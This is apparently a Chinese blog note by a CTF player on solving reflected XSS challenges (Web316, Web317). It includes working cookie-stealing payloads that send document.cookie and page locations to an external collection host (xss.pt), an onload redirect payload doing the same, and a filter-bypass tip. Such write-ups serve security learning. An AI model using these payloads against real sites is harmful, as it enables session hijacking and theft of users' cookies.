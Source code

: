 ```yaml
---
author: "Yiming Shen"
date: 2022-02-26
lastmod: 2022-02-26
title: "XSS类型题目积累及资料"
tags: [
    "CTF",
    "XSS",
    "Web",
    "Note",
]
categories: [
    "Notes",
     "CTF",
]
showtoc: true
math: true
typora-root-url: ..\..\..\..\static\
---
```


> 跨站脚本（Cross-Site Scripting，XSS）是一种经常出现在 WEB 应用程序中的计算机安全漏洞，是由于 WEB 应用程序对用户的输入过滤不足而产生的。攻击者利用网站漏洞把恶意的脚本代码注入到网页中，当其他用户浏览这些网页时，就会执行其中的恶意代码，对受害用户可能采取 Cookies 资料窃取、会话劫持、钓鱼欺骗等各种攻击。

## 反射型XSS

> 反射型 XSS 的利用一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的 URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。

### 无过滤反射型 

#### Web316 - [XSS平台](https://xss.pt)

![image-20220226192829187](/xss.assets/%7D/image-20220226192829187.png)

抓包后cookie提示flag在此，但需要管理员身份。

即生成链接诱骗管理员（本题为BOT）点击获取其cookie。

**借助XSS平台**
平台上放置脚本（可自行搭建）

```php
(function(){(new Image()).src='https://xss.pt/xss.php?do=api&id=Sh8s&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();
if(''==1){keep=new Image();keep.src='https://xss.pt/xss.php?do=keepsession&id=Sh8s&url='+escape(document.location)+'&cookie='+escape(document.cookie)};
```

[Xss平台](https://xss.pt) 注册登录后创建项目，将其提供的xss代码（引导访问其链接从而存储信息）填入框中，即可获得管理员访问cookie。

![image-20220226201645270](/xss.assets/%7D/image-20220226201645270.png)

### 过滤反射型

#### Web317 - \<onload\>

```html
<BODY ONLOAD=document.location='https://xss.pt/Sh8sp.jpg?cookie='+document.cookie;></body>

```

> **window.onload()** 方法用于在网页加载完毕后立刻执行的操作，即当 HTML 文档加载完毕后，立刻执行某个方法。

#### 空格过滤

换成`/**/`

#### 其他

```html
<img src="s" onerror=alert('xss')></img>
```



## 参考

[1] [XSS平台的使用](http://zhuabapa.top/2019/12/25/XSS%E5%B9%B3%E5%8F%B0%E4%BD%BF%E7%94%A8/)

[2] []()